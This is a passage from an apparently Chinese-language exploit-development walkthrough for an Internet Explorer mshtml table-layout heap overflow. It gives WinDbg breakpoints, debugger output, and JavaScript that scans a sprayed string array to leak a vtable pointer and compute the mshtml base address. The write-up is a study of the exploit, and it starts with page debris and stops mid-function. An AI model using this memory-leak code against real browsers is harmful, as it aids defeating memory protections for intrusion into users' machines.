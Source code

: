 </col></table><table style="table-layout:fixed" ><col id="132" width="41" span="9" >&nbsp </col></table>      
	<script language='javascript'>

然后第一次溢出是要修改堆B头的大小，使它可以读取更多的数据。找到溢出堆的位置的方法使，作者的方法是因为释放堆块最后都会调用底层函数ntdll!RtlFreeHeap，所以它的第3个参数即为被释放的堆地址，然后我们下个断点把运行过它的所以地址都打印出来，
	
	bu ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"

并且在调用完mshtml!CImplAry::EnsureSizeWorker函数后的位置也下一个断点，并且打印vulheap的字样。在这里我也卡了一下，因为作者在mshtml!CImplAry::EnsureSizeWorker函数后的位置下的断点是
	
	bu mshtml!CTableLayout::CalculateMinMax+0x16d ".echo vulheap;dd poi(ebx+9c) l4;g"

我当时也没怎么考虑就直接照着下了，但发现记录的vulheap都是?????????，后面才意识到因为操作系统版本的不同，所以作者的+0x16在我这里并不是，我在ida里面找到mshtml!CImplAry::EnsureSizeWorker的后一条代码为
	
	.text:3DACD3B0                 call    EnsureSizeWorker
	.text:3DACD3B5
	.text:3DACD3B5 loc_3DACD3B5:                           ; CODE XREF: sub_3DB46B8E+53C5D↓j
	
	.text:3DACD3B5                 test    eax, eax
然后在3DACD3B5处下断点，回看断点还是有所不同的，在我这里为+0x207的位置。

	0:014> bl
	 0 e 7c92ff2d     0001 (0001)  0:**** ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"
	 1 e 3dacd3b5     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax+0x207 ".echo vulheap;dd poi(ebx+9c) l4;g"


运行找到最后一个vulheap，就是我们需要的堆

	free heap
	00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
	free heap
	00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
	vulheap
	04f4b918  000003e0 00450045 00450045 00450045
	free heap
	00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
	free heap
	00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
	free heap
	00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????

以下代码通过遍历arr数组，找到BSRC字符串长度大于(0x100-6)/2的BSRC字符串，找到后通过固定的偏移地址(0x100-6)/2+(2+8)/2的长度找到CButtonLayout虚表地址的位置，其中0x100-6是指去掉BSTR的4字节长度和2字节终止符，（2+8）是2字节终止符与8字节堆指针，因为是Unicode字符串，所以都除以2作为长度值计算。
	
	function over_trigger() {
				var leak_addr = -1;
				for ( var i = 0; i < 500; i++ ) {
					if ( arr[i].length > (0x100-6)/2 ) { // overflowed
						leak_index = i;
						var leak = arr[i].substring((0x100-6)/2+(2+8)/2, (0x100-6)/2+(2+8+4)/2);
						leak_addr = parseInt( leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16 );
						mshtmlbase = leak_addr - Number(0x00207f78);
						alert(mshtmlbase);
						break;
					}
				}
